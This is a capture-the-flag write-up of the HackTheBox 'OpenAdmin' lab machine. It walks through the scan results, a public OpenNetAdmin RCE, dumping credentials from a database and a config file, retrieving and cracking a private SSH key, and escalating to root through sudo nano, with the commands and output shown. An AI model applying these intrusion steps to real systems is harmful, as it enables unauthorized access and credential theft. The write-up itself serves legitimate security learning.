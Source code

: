 ```yaml
---
Title: HackTheBox OpenAdmin
Date: 2020-01-09
Category: Challenges
Status: published
---
```


OpenAdmin is yet another medium-difficulty machine, which was a blast to hack on! It involved dealing with various stack components, such as interacting directly with a MySQL database. Furthermore, hopping across multiple users through different escalation vectors was very satisfying. Let's see how it is done!Our first nmap scan does not yield any exciting results:

```sh
$ nmap -sS -sC -oN openadmin.nmap -v 10.10.10.171
# Nmap 7.80 scan initiated Wed Jan  8 14:33:26 2020 as: nmap -sS -sC -oN openadmin.nmap -v 10.10.10.171
Nmap scan report for 10.10.10.171
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Jan  8 14:33:32 2020 -- 1 IP address (1 host up) scanned in 6.18 seconds
```

On port 80, we see the default Ubuntu Apache page. The server headers and error page leak the concrete version, but it is updated. Using dirbuster and a small directory wordlist, we find the `/music` and `/ona` endpoints. The first one hosts a custom web application without any exciting functionality. ONA is more attractive as it stands for [OpenNetAdmin](https://opennetadmin.com/). In the OpenNetAdmin interface, we are automatically logged in as a guest account. The user info panel leaks some database details, however. We get to know that MySQL is running on localhost, the default DB name is, and the default user is named `ona_sys`. We can also see the ONA version, which is `v18.1.1`. This is plenty of information to go on!We find that an [RCE is available](https://www.exploit-db.com/exploits/47691) for our version when we check for exploits. With some minor target-related updates to the proof-of-concept, we can drop into a shell right away and dump some user data:

```sh
# bash rce.sh http://10.10.10.171/ona/
$ whoami
www-data

$ cat /etc/passwd
...
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

On the host, we can finally access the MySQL database:

```sh
$ mysql --version
mysql  Ver 14.14 Distrib 5.7.28, for Linux (x86_64) using  EditLine wrapper
```

We can find the credentials by simply browsing the local code. Inside `local/config/database_settings.inc.php`:

```php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

With the password in hand, let's show what databases we have:

```sh
$ mysql -u ona_sys -e "show databases;" -p'n1nj4W4rri0R!'
Database
information_schema
ona_default
```

In ona_default, we have a users table, which we can dump:

```sh
$ mysql -u ona_sys -e "use ona_default; select * from users;" -p'n1nj4W4rri0R!'
id      username        password        level   ctime   atime
1       guest   098f6bcd4621d373cade4e832627b4f6        0       2020-01-09 19:55:04     2020-01-09 19:55:04
2       admin   21232f297a57a5a743894a0e4a801fc3        0       2007-10-30 03:00:17     2007-12-02 22:10:26
```

The passwords are MD5 hashes, which are so old that by now that we can perform a [rainbow table lookup](https://md5.gromweb.com/) online:

```
guest:test
admin:admin
```

With nothing more to check out server-side, we circle back and try out some SSH login with the credentials we have gathered so far. And indeed, `jimmy` has reused the database password `n1nj4W4rri0R!` for his SSH password. Logging in as jimmy, we gain access to `/var/www/internal`, where we find an exciting PHP file:

```sh
$ cat /var/www/internal/main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Posting the password from jimmy's SSH session here allows us to obtain the SSH key for `johanna`:

```sh
$ curl -F "username=jimmy" -F "password=n1nj4W4rri0R!" -X POST http://127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Back on our localhost, we can crack this key with `JohnTheRipper`:

```sh
➜  /usr/share/john/ssh2john.py id_rsa > id_rsa.john
➜  openadmin /usr/share/john/ssh2john.py joanna.key > joanna.hash
➜  openadmin john --wordlist=/usr/share/wordlists/rockyou.txt joanna.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna.key)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:06 DONE (2020-01-08 17:50) 0.1440g/s 2066Kp/s 2066Kc/s 2066KC/sa6_123..*7¡Vamos!
Session completed
```


With the password `bloodninjas` in hand, we can log in as johanna through SSH:

```sh
ssh -i joanna.key joanna@10.10.10.171
```

This will give us access to the user flag. We check the sudo permissions for johanna:

```sh
$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

With nano in the sudo permissions, we can efficiently perform a privilege escalation through it:

```sh
$ sudo /bin/nano /opt/priv
^R^X
reset; bash 1>&0 2>&0
```

We are now dropped into a root shell, securing the last flag. What a rollercoaster!

